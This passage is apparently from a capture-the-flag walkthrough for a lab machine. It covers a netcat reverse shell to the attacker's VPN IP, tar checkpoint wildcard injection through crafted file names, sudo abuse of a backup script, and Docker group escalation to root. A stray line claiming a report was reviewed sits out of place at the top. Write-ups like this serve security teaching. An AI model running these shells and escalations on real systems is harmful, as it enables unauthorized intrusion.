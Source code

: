 ```From system Thank you for your report. We have reviewed the listing and found nothing that violates our rules.```
![Image](https://imgur.com/EbvzidP.png)

After creating our payload let go back to the victim machine and type;


```echo "mkfifo /tmp/ahikccu; nc VPN IP 1337 0</tmp/ahikccu | /bin/sh >/tmp/ahikccu 2>&1; rm /tmp/ahikccu" > shell.sh```

```chmod 777 shell.sh```

```echo "" > "--checkpoint-action=exec=sh shell.sh"```

```echo "" > --checkpoint=1```

![Image](https://imgur.com/sIDLttv.png)

Now let open another terminal to start an Ncat listener on port 1337.

![Image](https://imgur.com/OTBjWnC.png)

Now let go back to the first terminal and type;

```sudo -u michael /opt/backups/backup.sh```

![Image](https://imgur.com/sb7drKn.png)

Going back to our Ncat listener we can see we have shell with user micheal.

![Image](https://imgur.com/ARTNs0i.png)

We can spawn a TTY shell with ```python -c 'import pty; pty.spawn ("/bin/bash")'``` to make our work more clean.

Privilege escalation to get root typing ```id```  we can see docker in the group of the user micheal since we have access to the user which is a part of the docker group then it is the same as to give constant root access without any password. 

![Image](https://imgur.com/4fbG1Oc.png)

```docker run -v /etc/:/mnt -it alpine```

We ran the command shown below, this command obtains the alpine image from the Docker Hub Registry and runs it. The –v parameter specifies that we want to create a volume in the Docker instance. The –it parameters put the Docker into the shell mode rather than starting a daemon process. The instance is set up to mount the root filesystem of the target machine to the instance volume, so when the instance starts it immediately loads a chroot into that volume. This gives us the root of the machine. After running the command, we traverse into the /mnt directory and found out root.txt.

![Image](https://imgur.com/dBeQFR4.png)

Boom and we are root, box rooted we can get our root.txt in the root folder.

Greeting From [CyberRat](https://twitter.com/Handyteddy)

<br> <br>
[Back To Home](../index.md)
<br>